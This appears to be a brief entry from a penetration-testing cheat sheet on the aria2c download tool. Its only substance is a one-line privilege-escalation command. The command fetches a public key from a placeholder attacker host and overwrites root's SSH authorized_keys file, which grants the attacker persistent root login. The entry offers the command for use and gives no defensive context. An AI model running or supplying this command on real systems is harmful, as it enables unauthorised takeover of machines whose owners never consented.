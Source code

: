 # aria2c

Example to privilege escalation when you are able to download & overwrite existing file

`/usr/bin/aria2c -d /root/.ssh/ -o authorized_keys "http://<ATTACKER_IP>/id_rsa.pub" --allow-overwrite=true`